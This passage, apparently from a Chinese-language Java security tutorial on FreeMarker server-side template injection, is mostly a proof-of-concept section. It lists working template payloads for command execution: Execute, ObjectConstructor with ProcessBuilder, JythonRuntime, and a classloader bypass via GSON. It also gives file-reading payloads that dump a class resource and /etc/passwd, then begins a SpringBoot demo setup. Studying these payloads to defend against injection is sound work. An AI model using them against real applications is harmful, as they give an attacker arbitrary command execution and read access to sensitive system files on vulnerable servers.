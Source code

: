 **POC**  
命令执行：

```bash
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

```bash
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","whoami").start()}
```

```bash
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")
```

```bash
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("open -a Calculator.app") }
```

文件读取：

```bash
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

```bash
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

### 2.3 简单例子

第一：创建 SpringBoot 项目 javasec-ssti  
第二：导入 FreeMarker 依赖

```bash
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
</dependency>
```
